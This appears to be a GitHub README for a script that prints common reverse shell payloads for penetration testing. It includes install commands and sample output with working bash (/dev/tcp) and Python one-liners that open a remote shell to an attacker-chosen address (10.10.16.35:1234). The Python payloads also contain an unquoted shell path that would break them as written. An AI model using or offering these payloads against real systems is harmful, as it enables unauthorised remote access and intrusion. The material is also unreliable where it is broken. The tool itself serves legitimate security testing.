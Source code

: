 ## Revshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/shroudri/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```

### Port 

By default, **if no arguments are provided**, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
```
printRevshells 1234
```

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
